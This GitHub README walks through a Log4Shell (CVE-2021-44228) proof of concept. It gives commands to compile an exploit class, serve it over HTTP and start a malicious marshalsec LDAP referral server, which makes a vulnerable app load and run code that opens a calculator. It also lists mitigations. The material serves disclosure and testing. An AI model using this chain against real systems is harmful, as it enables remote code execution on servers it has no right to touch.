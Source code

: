 # CVE-2021-44228 (Log4Shell) Proof of Concept

![](img/0.gif)

Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints.
An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

To help customers understand how this flaw works, we prepared this repo with a simple yet working Proof of Concept.

## Prerequisites

Having installed locally:

- Git
- JDK 11
- Maven
- Python

At the moment, the arbitrary code launches the Calculator application on macOS or Windows, so only those two operating systems are supported by this PoC.

## Disclaimer

All informations and code are provided solely for educational purposes and/or testing your own systems for this vulnerability.

## The attack tecnique

This PoC resemble the described in the picture below (credits [GovCERT.ch](https://GovCERT.ch)), a part from the vulnerable server that is just a simple Java class for the sake of simplicity. It's important to understand that this vulnerability may be triggered in various ways, what is described below is just one of them.

![](img/1.jpeg)

## How to run the PoC

Clone this repo

```console
terminal1 $ git clone https://github.com/sunnyvale-it/CVE-2021-44228-PoC.git
```

Compile the exploit (using JDK 11)

```console
terminal1 $ javac Exploit.java
```

Run an HTTP server to serve the exploit

```console
terminal1 $ python -m SimpleHTTPServer 8888 --directory .
```

Start the malicious LDAPRefServer (thanks to https://github.com/mbechler/marshalsec)

```console
terminal2 $ java -cp tools/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

Launch the buggy application (containing log4j 2.14.1)

```console
terminal3 $ mvn package && mvn exec:exec
```

If everything went fine, the Calculator application (arbitrary code execution) should pop-up

![](img/3.png)

## Quick mitigations (work on Log4J versions 2.10.0 up to 2.14.1)

### Set the LOG4J_FORMAT_MSG_NO_LOOKUPS env variable to true

```console
terminal3 $ export LOG4J_FORMAT_MSG_NO_LOOKUPS=true 
```

```console
terminal3 $ mvn package && mvn exec:exec
```

In this case the Calculator shouldn't pop-up anymore

### Run the application with log4j2.formatMsgNoLookups System property set to true

```console
terminal3 $ mvn package && mvn exec:exec -Dlog4j2.formatMsgNoLookups=true
```
In this case the Calculator shouldn't pop-up anymore